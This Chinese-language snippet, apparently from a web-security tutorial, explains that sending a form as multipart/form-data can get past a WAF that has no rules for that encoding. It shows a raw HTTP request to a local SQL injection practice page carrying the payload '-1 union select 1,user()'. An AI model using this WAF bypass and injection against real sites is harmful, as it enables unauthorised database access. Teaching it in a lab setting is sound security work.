 在 http 头里的 Content-Type 提交表单支持三种协议：

```sql
application/x-www-form-urlencoded 编码模式 post 提交
multipart/form-data 文件上传模式
text/plain 文本模式
```

文件头的属性是传输前对提交的数据进行编码发送到服务器。其中 multipart/form-data 表示该数据被编码为一条消息，页上的每个控件对应消息中的一个部分。所以，当 waf 没有规则匹配该协议传输的数据时可被绕过。

```sql
POST /vul/sqli/sqli_id.php HTTP/1.1
Host: 192.168.49.163:32777
Content-Length: 180
Cache-Control: max-age=0
Upgrade-Insecure-Requests: 1
Origin: http://192.168.49.163:32777
Content-Type: multipart/form-data;boundary=alicealice
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/95.0.4638.69 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
Referer: http://192.168.49.163:32777/vul/sqli/sqli_id.php
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9
Cookie: loveuser=4da774edec5008a818f954b214a8e20d; PHPSESSID=qahkeg1u261kk1j8535hjedd5a
Connection: close

--alicealice
Content-Disposition: form-data; name="id"

-1 union select 1,user()
--alicealice
Content-Disposition: form-data; name="submit"

%E6%9F%A5%E8%AF%A2
--
```

